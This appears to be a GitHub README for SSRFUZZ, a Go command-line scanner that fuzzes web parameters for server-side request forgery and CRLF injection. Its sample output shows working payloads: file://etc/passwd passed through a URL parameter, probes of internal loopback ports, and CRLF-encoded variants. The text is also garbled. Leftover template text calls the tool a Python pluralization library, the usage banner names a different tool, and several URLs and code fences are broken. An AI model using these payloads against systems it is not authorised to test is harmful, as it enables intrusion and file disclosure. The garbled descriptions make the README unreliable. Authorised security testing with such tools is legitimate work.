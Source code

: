 # SSRFUZZ

Foobar is a Python library for dealing with word pluralization.

## Installation

Run the following command to intsall

```bash
go get github.com/ryandamour/ssrfuzz
```

## Usage

```go
===============================================================
SSRFUZZ v0.0.1
by Ryan D'Amour @ryandamour 
===============================================================A scanner for all your SSRF Fuzzing needs

Usage:
  crlfmap scan [flags]

Flags:
      --delay int              The time each threads waits between requests in milliseconds (default 100)
  -d, --domains string         Location of domains with parameters to scan
  -h, --help                   help for scan
  -x, --http-method string     HTTP Method - GET or POST (default "GET")
  -o, --output string          Location to save results
      --skip-crlf              Skip CRLF fuzzing
      --skip-network           Skip network fuzzing
      --skip-scheme            Skip scheme fuzzing
  -s, --slack-webhook string   Slack webhook to send findings to a channel
  -t, --threads int            Number of threads to run crlfmap on (default 50)
      --timeout int            The amount of time needed to close a connection that could be hung (default 10)
  -u, --user-agent string      User agent for requests (default "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36")
  -v, --verbose                verbose output

```
* Scanning http and scheme payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan
...
 
[!] Scheme payload match:
* http://192.168.1.10/test.php?u=file://etc/passwd 200

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.0.0.1:80 200
* http://192.168.1.10/test.php?u=http://127.0.0.1:8080 500
* http://192.168.1.10/test.php?u=http://127.0.0.1:443 500
* http://192.168.1.10test.php?u=http://127.0.0.1:22 500
* http://192.168.1.10/test.ph?u=http://127.0.0.1:25 500
* http://192.168.1.10/test.php?u=http://127.0.0.1:445 500

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
```
* Scanning only http payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme
...

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
```
* Scanning only http payloads w/o crlf:
```go
* Scanning only http payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme --skip-crlf
...

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.0.0.1:80 200
* http://192.168.1.10/test.php?u=http://127.0.0.1:8080 500
* http://192.168.1.10/test.php?u=http://127.0.0.1:443 500
* http://192.168.1.10/test.php?u=http://127.0.0.1:22 500
* http://192.168.1.10/test.php?u=http://127.0.0.1:25 500
* http://192.168.1.10/test.php?u=http://127.0.0.1:445 500
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
